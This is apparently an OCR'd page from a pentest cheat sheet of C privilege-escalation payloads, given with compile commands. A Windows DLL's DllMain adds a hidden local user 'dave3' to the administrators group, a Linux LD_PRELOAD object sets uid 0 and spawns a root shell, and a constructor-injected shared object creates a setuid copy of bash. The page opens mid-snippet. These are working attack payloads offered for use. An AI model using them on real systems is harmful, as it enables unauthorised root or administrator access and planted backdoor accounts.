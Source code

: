 ```c
        system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}

```

```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}

```

#### Linux Shared Object in LD_PRELOAD C Code
```c
// gcc -fPIC -shared -o shell.so shell.c -nostartfiles
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");  // to unset ld_preload for child process of system() otherwise it will start again during system() means infinite loop
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```
#### shared object injection
```c
# gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```